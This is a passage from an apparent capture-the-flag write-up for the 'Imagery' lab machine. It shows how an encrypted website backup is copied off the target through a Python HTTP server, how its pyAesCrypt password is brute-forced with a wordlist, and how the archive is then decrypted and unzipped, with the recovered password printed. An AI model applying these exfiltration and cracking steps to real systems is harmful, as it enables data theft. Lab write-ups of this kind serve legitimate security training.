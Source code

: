 ### /var/backups file

After playing around with our shell, we could find there’s a zipped file `web_20250806_120723.zip.aes` that is located at `/var/backup`

```bash
web@Imagery:~/web$ ls -lah /var/backup
total 22M
drwxr-xr-x  2 root root 4.0K Sep 22 18:56 .
drwxr-xr-x 14 root root 4.0K Sep 22 18:56 ..
-rw-rw-r--  1 root root  22M Aug  6  2024 web_20250806_120723.zip.aes
web@Imagery:~/web$ cp /var/backup/web_20250806_120723.zip.aes /tmp
web@Imagery:~/web$ cd /tmp/
web@Imagery:/tmp$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 ([http://0.0.0.0:8888/](http://0.0.0.0:8888/)) ...
10.10.14.19 - - [09/Oct/2025 05:37:04] "GET /web_20250806_120723.zip.aes HTTP/1.1" 200 -
```

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ file web_20250806_120723.zip.aes
web_20250806_120723.zip.aes: AES encrypted data, version 2, created by "pyAesCrypt 6.1.1"
```

### **pyAesCrypt encrypted**

The file is `AES encrypted data, version 2, created by "pyAesCrypt 6.1.1"` I then look for **pyAesCrypt** decrypt from online resources, We would first need to [bruteforce](https://github.com/dollarboysushil/pyAesCrypt-Decryptor-Brute-Forcer) the password before we can [crack](https://github.com/marcobellaccini/pyAesCrypt) the zip file.

```bash
┌──(.venv)(kali㉿kali)-[~/Desktop/Tools/pyAesCrypt-Decryptor-Brute-Forcer]
└─$ python3 dbs_pyaescrypt_decryptor.py -i ~/Downloads/web_20250806_120723.zip.aes -w /usr/share/wordlists/rockyou.txt -t 50
Using temporary directory: /tmp/pyaes_bruteforce____m5tyg
Workers: 50
[+] Output file exists: out.zip
[+] Password (reported by worker): bestfriends
[+] You can inspect with: file out.zip  && unzip -l out.zip
```

```bash
┌──(.venv)(kali㉿kali)-[~/Desktop/Tools/pyAesCrypt-Decryptor-Brute-Forcer]
└─$ ../pyAesCrypt/bin/pyAesCrypt -d ~/Downloads/web_20250806_120723.zip.aes -o ~/Downloads/web_20250806_120723.zip
Password: bestfriends
```

### unzipping the files

After inspecting, we should see an updated data from db.json 

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ cd web/                                       

┌──(kali㉿kali)-[~/Downloads/web]
└─$ ls                                            
api_admin.py   api_upload.py  __pycache__
api_auth.py    app.py         system_logs
api_edit.py    config.py      templates
api_manage.py  db.json        utils.py
api_misc.py    env

┌──(kali㉿kali)-[~/Downloads/web]
└─$ cat db.json                                   
{
```